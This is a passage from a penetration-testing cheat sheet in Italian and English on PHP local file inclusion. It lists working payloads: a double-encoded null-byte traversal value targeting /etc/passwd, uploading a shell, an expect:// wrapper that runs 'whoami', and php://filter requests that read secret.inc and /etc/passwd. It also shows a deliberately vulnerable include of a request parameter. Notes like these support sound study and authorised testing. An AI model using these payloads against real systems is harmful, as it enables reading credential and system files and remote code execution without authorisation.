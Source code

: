 Adding a Nullbyte
```
filename=..%252f..%252f..%252fetc/passwd%00
```

Per altre tecniche di bypass vedere [[File Upload]]

***
# Common LFI to RCE
Attenzione ai #Wrappers e a molte funzionalita' di PHP. Non dare **mai** per scontato che qualcosa sia gia' abilitato. Se possibile vedere un file php info prima di exploitare:

```php
<?php phpinfo(): ?>
```
<br>

## 1) Using file upload forms/functions
Quite easy, upload a shell then:
```http
http://example.com/index.php?page=path/to/uploaded/file.php
```
<br>

## 2) Using the PHP wrapper expect://command
if the app uses an include:
```php
<?php  
include $_GET['page'];  
?>  
```
It's possible to use wrappers:
```http
http://target.com/index.php?page=expect://whoami  
```
<br>

## 3) Using php wrapper file:// (RFI)
```http
http://localhost/include.php?page=file:///path/to/file.ext
```
<br>

## 4) Using the PHP wrapper php://filter (LFI)
```http
http://localhost/include.php?page=php://filter/convert.base64-encode/resource=secret.inc

http://localhost/include.php?page=php://filter/read=convert.base64-encode/resource=secret.inc

http://localhost/include.php?page=php://filter/resource=/etc/passwd
```
<br>
